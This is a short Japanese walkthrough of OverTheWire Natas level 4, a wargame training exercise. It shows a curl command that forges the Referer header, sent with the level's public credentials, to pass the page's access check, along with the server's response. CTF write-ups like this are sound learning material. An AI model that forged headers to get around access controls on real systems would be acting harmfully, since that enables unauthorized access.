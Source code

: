 ```

Natas Level 3 → Level 4

Username: natas4
URL:      http://natas4.natas.labs.overthewire.org

```

![](img/natas4-1.png)  

`http://natas5.natas.labs.overthewire.org/`からのアクセスでないとダメらしい。  

`Referer`ヘッダを使う。  

Refererヘッダとは  
> Referer ヘッダーにより、サーバーは人々がどこから訪問しに来たかを識別し、分析、ログ、キャッシュの最適化などに利用することができる

```
curl -H 'Referer:http://natas5.natas.labs.overthewire.org/' -u natas4:QryZXc2e0zahULdHrtHxzyYkj59kUxLQ http://natas4.natas.labs.overthewire.org/
```
すると、  
```
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas4", "pass": "QryZXc2e0zahULdHrtHxzyYkj59kUxLQ" };</script></head>
<body>
<h1>natas4</h1>
<div id="content">

Access granted. The password for natas5 is ****************************
<br/>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
</div>
</body>
</html>
```

クリア
